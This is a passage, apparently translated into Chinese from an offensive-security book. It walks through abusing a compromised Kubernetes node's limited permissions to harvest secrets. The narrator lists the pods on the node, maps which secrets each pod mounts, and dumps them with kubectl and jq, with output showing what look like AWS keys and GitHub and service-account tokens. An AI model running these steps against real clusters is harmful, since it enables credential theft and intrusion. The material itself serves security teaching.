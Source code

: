 ```
shell> **kubectl get secrets --all-namespaces**

Error from server (Forbidden): secrets is forbidden:
User "system:node:ip-192-168-98-157.eu-west-1.compute.internal" cannot list
resource "secrets" in API group "" at the cluster scope: can only read
namespaced object of this type
```

在 Kubernetes 1.10 版本中引入了一项安全特性，限制了节点的过度权限：节点授权。此特性基于经典的基于角色的访问控制之上。一个节点只能在该节点上有需要该秘密的调度 Pods 时，才能获取该秘密。当这些 Pods 被终止时，节点就会失去访问该秘密的权限。

不过，没必要惊慌。任何随机节点通常都会在任何给定时刻托管数十个，甚至上百个不同的 pod，每个 pod 都有其自己的秘密、数据卷等等。也许今天晚上 11 点，我们的节点只能获取到一个虚拟数据库的密码，但给它 30 分钟，kube-scheduler 可能会将一个具有集群管理员权限的 pod 发送到该节点。关键在于在合适的时刻，处于合适的节点。我们列出当前机器上运行的 pods，以找出我们有权获取哪些秘密：

```
shell> **kubectl get pods --all-namespaces --field-selector\**
**spec.nodeName=ip-192-168-21-116.eu-west-1.compute.internal**

prod    ads-rtb-deployment-13fe-3evx   1/1  Running
prod    ads-rtb-deployment-12dc-5css   1/1  Running
prod    kafka-feeder-deployment-23ee   1/1  Running
staging digital-elements-deploy-83ce   1/1  Running
test    flask-deployment-5d76c-qb5tz   1/1  Running
`--snip--`
```

这个单一节点托管着大量异构的应用。看起来很有希望。这个节点很可能能够访问大量跨不同组件的秘密。我们使用自定义解析器自动列出每个 pod 加载的秘密：

```
shell> .**/kubectl get pods -o="custom-columns=\**
**NS:.metadata.namespace,\**
**POD:.metadata.name,\**
**ENV:.spec.containers[*].env[*].valueFrom.secretKeyRef,\**
**FILESECRET:.spec.volumes[*].secret.secretName" \**
**--all-namespaces \**
**--field-selector spec.nodeName=ip-192-168-21-116.eu-west-1.compute.internal**

NS       POD             ENV                FILESECRET
prod     kafka...        awsUserKafka       kafka-token-653ce
prod     ads-rtb...      CassandraDB        default-token-c3de
prod     ads-rtb...      CassandraDB        default-token-8dec
staging  digital...      GithubBot          default-token-88ff
test     flask...        AuroraDBTest       default-token-913d
`--snip--`
```

一个宝藏！Cassandra 数据库、AWS 访问密钥、服务账户、Aurora 数据库密码、GitHub 令牌、更多的 AWS 访问密钥……这还是真的吗？我们使用相当明确的命令`kubectl get secret`下载（并解码）每一个秘密，如下所示：

```
shell> **./kubectl get secret awsUserKafka  -o json -n prod \**
**| jq .data**
  "access_key_id": "AKIA44ZRK6WSSKDSKQDZ",
  "secret_key_id": "93pLDv0FlQXnpyQSQvrMZ9ynbL9gdNkRUP1gO03S"

shell> **./kubectl get secret githubBot -o json -n staging\**
**|jq .data**
  "github-bot-ro": "9c13d31aaedc0cc351dd12cc45ffafbe89848020"

shell> **./kubectl get secret kafka-token-653ce -n prod -o json | jq -r .data.token**
"ZXlKaGJHY2lPaUpTVXpJMU5pSXNJbXRwWkNJNklpSjkuZ...
```
